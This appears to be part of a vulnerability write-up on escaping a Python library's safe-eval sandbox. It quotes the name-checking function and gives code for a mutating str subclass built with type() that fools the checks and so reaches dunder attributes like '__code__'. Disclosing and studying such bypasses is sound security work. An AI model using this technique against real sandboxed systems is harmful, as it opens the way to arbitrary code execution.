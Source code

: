 ```py
		are additionally allowed although their names start with `_`.
		"""
		if isinstance(name,strTypes):
			# NO ACCESS TO ATTRIBUTES STARTING WITH __ OR MATCH A PREDEFINED UNSAFE ATTRIBUTES NAMES
			if name in __rl_unsafe__ or (name.startswith('__')
				and name!='__'
				and name not in self.allowed_magic_methods):
				raise BadCode('unsafe access of %s' % name)
```
# The Bug
The safe eval as described earlier sanitizes the environment from all dangerous functions so that executing code has no access to dangerous tools that can be used to execute malicious actions, however in case a bypass is found to those restrictions and an access to one of the original builtins functions is achieved, it would facilitate greatly the exploitation of the sandboxed environment.

One of the many overridden builtin classes is called `type`, if this class is called with one argument, it returns the type of an object. however in case it is called with three arguments, it returns a new type object. This is essentially a dynamic form of the class statement. In other words it can allow the creation of a new class that inherits from another class.

So the idea here is to create a new class called `Word` that inherits from `str` that when passed to the custom `getattr` it would bypass the checks and would allow the access to sensitive attributes like `__code__`.

Before the custom `getattr` in sandboxed eval returns the attribute it does some checks by calling `__rl_is_allowed_name__` to check the for safety of the called attribute before calling the python builtin `getattr` and returning the result. 
```py
	def __rl_is_allowed_name__(self, name):
		"""Check names if they are allowed.
		If ``allow_magic_methods is True`` names in `__allowed_magic_methods__`
		are additionally allowed although their names start with `_`.
		"""
		if isinstance(name,strTypes):
			if name in __rl_unsafe__ or (name.startswith('__')
				and name!='__'
				and name not in self.allowed_magic_methods):
				raise BadCode('unsafe access of %s' % name)
```

To bypass the `__rl_is_allowed_name__` function, the `Word` class should:
* Always return `False` for calls to function `startswith` to  bypass `(name.startswith('__')`
* Should return `False` to its first call to `__eq__` to bypass the `name in __rl_unsafe__`, after the first call it should return the correct response because when `__eq__` is called by the python builtin `getattr` it should return the correct result.
* the hash should be he same of he hash of its underlying string

The following class fulfills these criteria:
```py
Word = type('Word', (str,), {
            'mutated'   : 1,
            'startswith': lambda self, x: False,
            '__eq__'    : lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x,
            'mutate'    : lambda self: {setattr(self, 'mutated', self.mutated - 1)},
            '__hash__'  : lambda self: hash(str(self))
            })
code = Word('__code__')
print(code == '__code__')    ## prints False
print(code == '__code__')    ## prints True
print(code == '__code__')    ## prints True
print(code == '__code__')    ## prints True

print(code.startswith('__')) ## prints False
```
